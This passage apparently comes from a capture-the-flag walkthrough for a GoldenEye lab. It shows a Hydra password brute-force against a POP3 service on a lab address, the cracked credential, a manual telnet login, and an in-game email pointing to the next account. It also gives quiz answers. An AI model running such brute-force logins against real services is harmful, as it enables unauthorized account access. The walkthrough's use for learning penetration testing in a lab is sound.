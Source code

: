 ~~~
$ hydra -l doak -P /data/src/wordlists/fasttrack.txt pop3://10.10.7.77:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 18:24:29
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 18:26:52
~~~

Answer: `goat`

## #3.6 - Use this users credentials to go through all the services you have found to reveal more emails.

We are able to authenticate against the POP3 service to list doak's emails (there is only 1):

~~~
$ telnet 10.10.7.77 55007
Trying 10.10.7.77...
Connected to 10.10.7.77.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
~~~

## #3.7 - What is the next user you can find from doak?

*Hint: Emails, emails, emails..*

Let's retrive doak's unique email:

~~~
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
  by ubuntu (Postfix) with SMTP id 97DC24549D
  for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
~~~